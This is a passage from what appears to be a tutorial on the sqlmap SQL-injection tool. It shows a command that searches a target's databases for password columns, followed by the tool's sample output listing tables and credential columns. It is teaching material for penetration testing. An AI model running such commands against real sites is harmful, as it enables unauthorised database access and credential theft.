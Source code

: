     Database: mysql
    [1 table]
    +-----------------+
    | user            |
    +-----------------+

    do you want to dump found table(s) entries? [Y/n] 
    ...SNIP...

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

`sqlmap -u "http://www.example.com/?id=1" --search -C pass`

    ...SNIP...
    columns LIKE 'pass' were found in the following databases:
    Database: owasp10
    Table: accounts
    [1 column]
    +----------+------+
    | Column   | Type |
    +----------+------+
    | password | text |
    +----------+------+

    Database: master
    Table: users
    [1 column]
    +----------+--------------+
    | Column   | Type         |
    +----------+--------------+
    | password | varchar(512) |
    +----------+--------------+

    Database: mysql
    Table: user
    [1 column]
    +----------+----------+
    | Column   | Type     |
    +----------+----------+
    | Password | char(41) |
    +----------+----------+

    Database: mysql
    Table: servers
    [1 column]
    +----------+----------+
    | Column   | Type     |
    +----------+----------+
    | Password | char(64) |
    +----------+----------+
